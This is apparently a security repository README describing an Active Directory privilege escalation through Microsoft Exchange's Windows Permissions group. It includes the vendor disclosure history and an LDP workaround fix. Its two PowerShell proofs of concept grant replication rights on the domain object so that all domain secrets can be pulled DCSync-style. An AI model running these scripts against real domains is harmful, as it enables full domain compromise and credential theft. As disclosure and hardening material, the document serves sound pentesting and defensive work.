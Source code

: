 # Exchange-AD-Privesc

This repository will provide a few techniques and scripts regarding the impact of Microsoft Exchange deployment on Active Directory security.

## General considerations

For pentesters looking to take control of an AD domain, Exchange is a valid intermediary target. The servers are much less secured than domain controllers by default and the control groups are distinct in the usual permissions models, which provides numerous alternative targets.
They are also more difficult to migrate and business critical, so organizations often adopt a slower migration process for Exchange than for AD and do not specifically harden the servers.

Exchange deployment on an Active Directory domain is an interesting case. Many attributes and classes are added to the schema, security groups are created and DACL on some AD objects are heavily modified. 

Basically you can select among 3 permissions models:

* RBAC Split (most common)
* Shared permissions (default)
* AD Split

Particularly, DACLs for RBAC Split and Shared models are enumerated here: https://technet.microsoft.com/en-us/library/ee681663(v=exchg.150).aspx .


High value targets:

* Exchange Trusted Subsystem and Exchange Windows Permissions groups, which are trustees for many ACE added during deployment on AD objects.
* Exchange servers: they are members of Exchange Trusted Subsystem and Exchange Windows Permissions groups. They can be compromised using many more techniques than domain controllers: local administrators domain accounts, Kerberos delegation, SMB relay, RODC replication, etc. The usual stuff.
* Organization admins: they are part of the local administrators group on Exchange servers. They also have full control on the OU containing the Exchange security groups. They can launch service/psexec/runas/... under computer identity/NetworkService/LocalSystem to control Exchange Trusted Subsystem and Exchange Windows Permissions SIDs.

## 1. Domain object DACL privilege escalation

A privilege escalation is possible from the "Exchange Windows permissions" (EWP) security group to compromise the entire prepared Active Directory domain.

DISCLAIMER: This has been responsibly disclosed to MSRC in October 2017 and after a few back and forth emails, they decided it was working as intended and would not fix it.

* Description of the issue

When preparing Exchange 2010/2013/2016 installation in shared permissions (default) or RBAC split permissions, some ACEs are positioned on the domain object for the Exchange Windows Permissions security group.
This happens during the "Setup /PrepareDomain" command.

The two following ACEs on the domain object are missing the INHERIT_ONLY_ACE bit in the Flags field:


| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / user | |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / inetOrgPerson | |


* Technical consequence

The Allow permission to WriteDACL is granted to the Trustee on the domain object itself and not only on its user/inetOrgPerson descendants, effectively giving complete control to anyone with the Exchange Windows Permissions SID in its token.

* Expected behavior

The Allow permission to WriteDACL should only be given on child objects matching the INHERITED_OBJECT_TYPE Guid. It is supposed to only apply to user or inetOrgPerson classes.
This is also incoherent with the other INHERITED_OBJECT_TYPE ACEs on the domain object for the same Trustee, which all have the INHERIT_ONLY_ACE bit in the Flags field.


* Security Consequence

A privilege escalation is possible from the "Exchange Windows permissions" (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes-All extended right on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets (Kerberos keys, hashes, etc.).

You can control the SID of the EWP group from "Organization management", from "Account operators" or from any Exchange server.
Interestingly, the RBAC system is proxified through EWP so a privilege escalation is possible from the "Active Directory Permissions" RBAC role to compromise the entire prepared Active Directory domain.


* Proof of concept 1: Set-Acl (or with DSA console)

From an Organization Management member account, add yourself to Exchange Windows Permissions.
This is possible by default (see the above technet page).

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

RELOG to update groups in your token then give yourself Ds-Replication-Get-Changes-All extended right on the domain object.

```
$acl = get-acl "ad:DC=test,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=test,DC=com"
```


* Proof of concept 2: RBAC Add-ADPermission

The following Powershell code, executed by a user account with the RBAC role "Active Directory Permissions", sets the Ds-Replication-Get-Changes-All extended right on the domain object.

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
Add-ADPermission "DC=test,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes-All
```

* Workaround fix

LDP is the recommended tool. Bind as a Domain Admin account with the usual precautions, as you will change the domain object DACL.
Locate the 2 faulty ACE in the DACL of the domain object: you can sort by Trustee to see Exchange Windows Permissions, there will only be 2 ACE with "Write DACL,..." Rights.
Check the 'Inherit only' box in their ACE flags field. 


